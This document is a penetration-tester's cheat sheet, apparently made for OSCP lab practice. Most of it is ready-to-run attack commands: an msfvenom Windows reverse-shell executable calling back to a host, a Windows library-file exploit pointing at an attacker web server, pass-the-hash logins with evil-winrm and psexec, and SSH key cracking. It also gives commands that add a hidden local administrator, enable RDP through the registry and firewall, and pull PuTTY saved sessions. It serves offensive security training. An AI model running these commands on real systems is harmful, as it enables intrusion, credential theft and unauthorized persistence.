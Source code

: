 # Tools
___!!MAKE SURE TO HAVE ENOUGH RESOURCES..!!___
## nmap
`sudo nmap -sC -sV -T4 -v -p- -oA 192.168.233.227 192.168.233.227` Full TCP scan with logging \
`sudo nmap -sU -T4 -v -p- 192.168.233.153 -oA nmap/192.168.233.153-UDP` Full UDP SCAN with logging

## gobuster
`gobuster dir -u http://192.168.233.153 -w /usr/share/wordlists/dirb/big.txt -t 5 --output gobuster/192.168.233.153` Gobuster dir scan

## curl
`curl`
- `-H "host: test.com"` add header, for testing vhosts\
- `--insecure` ignore certificate issues

## ssh
`ssh`
- `-R 1337:192.168.1.1:3389` Create listening port on the server forwarding to IP:3389\
- `-L 1337:192.168.1.1:3389` Create listening prot lon the local client forwarding to IP:3389

## SWAKS
Swiss Army Knife for SMTP\
- `--to mail@mail.com` Send to address
- `--server` Server to use

## Chisel
`chisel`
- `client` for client mode
- `server` for server mode
Note: issues with starting chisel client when using the pre-compiled version from Kali. Dowloaded release from github does work.\

## ExploitDB
`searchsploit -m XXXXX ` to "mirror" a vulnerability from ExploitDB

## msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.186 LPORT=1337 -f exe > rev.exe ` Create windows reverse shell executable

## ligolo-ng
releases for proxy and agent on Github: https://github.com/nicocha30/ligolo-ng

__Start proxy:__\
`sudo ip tuntap add user kali mode tun ligolo`\
`sudo ip link set ligolo up`

`./proxy -selfcert`

__Start ligolo agent:__\
`.\ligolo-agent.exe -connect xxx.xxx.xxx.xxx:11601 -ignore-cert`

__Setup tunnel over proxy:__\
`session` Select session\
`ifconfig` -- Show ip info\
`sudo ip route add 192.168.0.0/24 dev ligolo` Create route\
`start` Start tunnel\

--Network is now reachable through proxy--

## Other usefull resources:
https://crackstation.net/


## WIndows Library file exploit
**NOTE:** After executing windows **optimizes the file** which could make it **unusable** on another machine.
```xml
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.177</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

## Cracking SSH keyphrase
`ssh2john sample.key > sample.hash`
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

## Add local administrator
`net user /add user P@ssw0rd!`
`net localgroup administrators user /add`

## Enable RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
`netsh advfirewall firewall set rule group="remote desktop" new enable=Yes`

## EvilWinRM
`evil-winrm -i ip -u USER-H HASH -r DOMAIN` Sign in with a hash, try without domain as well
using `download FILENAME` a file can be downloaded from the remote system. 

## PSExec
`impacket-psexec USER@ip -hashes :HASH`

`python3 -m pyftpdlib -w -p 21`

`impacket-smbserver -smb2support -username kali -password 1234 oscp oscp`

## Get Putty credentials:
`reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s`
`reg query HKCU\Software\SimonTatham\PuTTY\SshHostKeys\`

## GIT
`wget -r` download folder over http  
`git show HASH` to show changes in a specific commit  
`git diff` to show all changes  